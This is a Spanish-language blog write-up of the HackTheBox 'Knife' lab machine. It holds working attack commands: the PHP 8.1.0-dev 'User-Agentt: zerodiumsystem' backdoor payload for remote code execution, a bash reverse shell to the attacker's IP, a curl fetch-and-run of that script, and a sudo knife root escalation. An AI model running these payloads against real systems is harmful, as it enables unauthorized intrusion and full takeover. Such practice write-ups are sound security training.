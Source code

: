 ```yaml
---
layout: single
author: Bast1ant1c
title: HTB Knife
excerpt: "Vamos a resolver la maquina Knife de HackTheBox. ¡Let's hack!"
date: 2022-04-28
classes: wide
header:
  teaser: /assets/images/knife/01inicio.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Writeup
  - Knife
---
```


<p align="center">
<img src="/assets/images/knife/01inicio.png">
</p>

¡Hola!
En esta ocasión vamos a resolver de la maquina **Knife** de [HackTheBox](https://app.hackthebox.com/).
La maquina es nivel “Easy”, sin embargo, el nivel siempre se lo pones tú, al enfrentar estos retos, ¡vamos a ponernos hack!

## PREPARACIÓN

Para iniciar nuestra máquina, vamos a crear un directorio de trabajo con el nombre `knife` y los subdirectorios `nmap` junto con `exploit`, con el objetivo de organizar la información que recopilemos en la realización de la máquina.

```bash
❯ mkdir knife
❯ cd !$
cd knife
❯ mkdir nmap exploit
```

## RECONOCIMIENTO  

Accedemos al directorio `nmap` e iniciamos nuestra fase de reconocimiento sobre el objetivo por medio de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.242 | grep ttl | awk '{print $4,$6}'
10.10.10.242: ttl=63
```

Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 63 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTheBox).

* TTL => 64	Linux
* TTL => 128	Windows

Continuamos con la enumeración de los **65535** puertos en la máquina. 

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.242 -oG openPorts | grep open
22/tcp open  ssh
80/tcp open  http
```

Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar en nuestro objetivo.

```bash
❯ nmap -p22,80 -sCV 10.10.10.242 -oG deepScan
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 13:38 -05
Nmap scan report for 10.10.10.242
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos identificar que el puerto `80` tiene una página web en servicio, por lo que revisamos con el explorador la página en cuestión.

<p align="center">
<img src="/assets/images/knife/03page.png">
</p>

Vamos a realizar un **fuzzing** por medio de la generación de múltiples peticiones con diferentes terminaciones a la página web, con el fin de detectar rutas de acceso a información o explotación, sin embargo, no es posible la extracción de información que fuera de ayuda para el ejercicio (solo muestro el comando para fines educativos).

```bash
❯ wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.242/FUZZ
```

A continuación, vamos a realizar la enumeración de software utilizado para la creación de la página web a través de la utilidad `whatweb`.

```bash
❯ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Scrip>
```

Como se puede ver, tenemos la versión `PHP 8.1.0-dev`, la cual vamos a buscar en la base de datos de exploits por medio de la utilidad `searchsploit`

```bash
❯ searchsploit PHP 8.1.0-dev | grep dev
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution	| php/webapps/49933.py
```

Encontramos un exploit que genera un backdoor por medio de una modificación en las cabeceras de la petición web, todo esto por con el fin de lograr un RCE (Remote Command Excecution).

```bash
"User-Agentt: zerodiumsystem ('whoami');"
```

## EXPLOTACIÓN

Bien, ahora que tenemos conocimiento de esta vulnerabilidad, vamo a probar en la maquina victima por medio de la utilidad `curl` que nos permite modificar parámetros como en este caso el **User Agent** (Entramos a la carpeta exploit antes de ejecutar nuestra prueba).

```bash
cd ../exploit
❯ curl -s -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem ('whoami');" | head -n 1
james
```
¡Tenemos ejecución remota de comandos! Podemos ver que el usuario `james` es un usuario de la maquina víctima.

Vamos a generar una reverse shell en bash para cargarla y después ejecutarla en la máquina, para esto creamos el archivo `escalation.sh` con el siguiente contenido.

```bash
❯ cat escalation.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.12/5555 0>&1'
```

Ahora que tenemos nuestra reverse shell, vamos a iniciar en nuestra maquina un servidor web con ayuda de `python`

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Luego de tener nuestro servidor activo, generamos una petición al servidor web victima por medio del exploit encontrado anteriormente, en esta ocasión para **subir** el archivo en la maquina vulnerable.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" curl http://10.10.14.12:8000/escalation.sh -o /tmp/escalation.sh ");'
```

Al tener la reverse shell solo queda ejecutarlo, sin embargo, antes de ejecutar el comando es necesario ponerse en escucha por el puerto que se indicó al momento de configurar la reverse shell, para este caso es el puerto `5555`.

```bash
❯ nc -lnvp 5555
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
```
Finalmente ejecutamos el comando para accionar la reverse shell desde la maquina víctima.

```bash
❯ curl -s -X GET http://10.10.10.242/ -H 'User-Agentt: zerodiumsystem(" bash /tmp/escalation.sh ");'
```

Vamos a verlo en acción.

<p align="center">
<img src="/assets/images/knife/04intrusion.png">
</p>

¡Obtenemos acceso a la maquina!

El primer paso luego de obtener una shell es realizar el tratamiento de la TTY, por lo que dejare el procedimiento de cómo realizarlo (Esto se hace inicialmente en la maquina a la cual tenemos acceso).

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Ahora que estamos dentro de la maquina con el usuario `james`, vamos a escalar privilegios para lograr ser `root`, pero antes de eso vamos a leer la flag del usuario.

```bash
james@knife:/$ find . -name user.txt 2>/dev/null
./home/james/user.txt
james@knife:/$ head -c 10 ./home/james/user.txt; echo
b2bf0e7aa5
```
## ESCALAMIENTO

¡Perfecto! Ahora si vamos a revisar permisos por medio del comando `sudo -l`, así podremos ver qué tipo de utilidades puede ejecutar el usuario `james` con privilegios.

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Vemos que `james` puede ejecutar el comando `knife` sin necesidad de ingresar credenciales.

Por medio del recurso [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) identificamos una vía potencial de escalamiento de privilegios, ejecutando lo siguiente.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

Procedemos a realizar la prueba en nuestra maquina vulnerada.

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
```

¡Logramos tener acceso a la maquina como `root`!

Solo hace falta buscar la flag correspondiente y eso sería todo.

```bash
# find . -name root.txt 2>/dev/null
./root/root.txt
# head -c 10 ./root/root.txt ; echo
4b01b07a6d
```

¡Hemos logrado nuestra primera maquina del blog en HackTheBox!

<p align="center">
<img src="/assets/images/knife/05finish.png">
</p>

Por último, les recomiendo seguir **practicando** y si pueden generar contenido, mucho mejor! Espero les pueda servir de algo este material.

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
